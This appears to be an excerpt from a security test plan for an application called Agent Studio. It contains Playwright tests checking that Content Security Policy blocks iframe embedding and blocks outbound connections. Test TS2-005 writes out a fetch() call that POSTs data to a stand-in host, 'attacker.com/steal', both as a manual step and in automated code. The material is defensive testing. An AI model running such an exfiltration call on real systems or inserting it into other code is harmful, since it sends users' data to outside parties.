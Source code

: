 **Automation:**
```typescript
test('CSP prevents iframe embedding', async ({ page, context }) => {
  const testPage = await context.newPage();

  await testPage.setContent(`
    <!DOCTYPE html>
    <html>
    <body>
      <iframe id="target" src="https://staging.agentstudio.com"></iframe>
    </body>
    </html>
  `);

  const iframeContent = await testPage.frameLocator('#target').locator('body').textContent();

  expect(iframeContent).toBe(''); // Iframe blocked, no content loaded
});
```

**PASS Criteria:** Application cannot be embedded in iframes

---

### TS2-005: Data Exfiltration Prevention (connect-src)

**Objective:** Verify CSP blocks connections to unauthorized domains

**Test Steps:**
1. Log in to Agent Studio
2. Attempt to exfiltrate data via fetch:
   ```javascript
   fetch('https://attacker.com/steal', {
     method: 'POST',
     body: JSON.stringify({ data: 'sensitive' })
   });
   ```
3. Observe network tab and console

**Expected Result:**
- ✅ CSP violation error: "Refused to connect to 'https://attacker.com/steal'"
- ✅ Network request blocked (status: blocked)
- ✅ No data sent to attacker domain

**Automation:**
```typescript
test('CSP blocks connections to unauthorized domains', async ({ page }) => {
  let exfiltrationAttempted = false;

  await page.route('**/*attacker.com*', route => {
    exfiltrationAttempted = true;
    route.abort();
  });

  await page.goto('/dashboard');
  await page.evaluate(() => {
    fetch('https://attacker.com/steal', {
      method: 'POST',
      body: JSON.stringify({ data: 'test' })
    });
  });

  await page.waitForTimeout(2000);

  expect(exfiltrationAttempted).toBe(false); // CSP blocked before route interception
});
```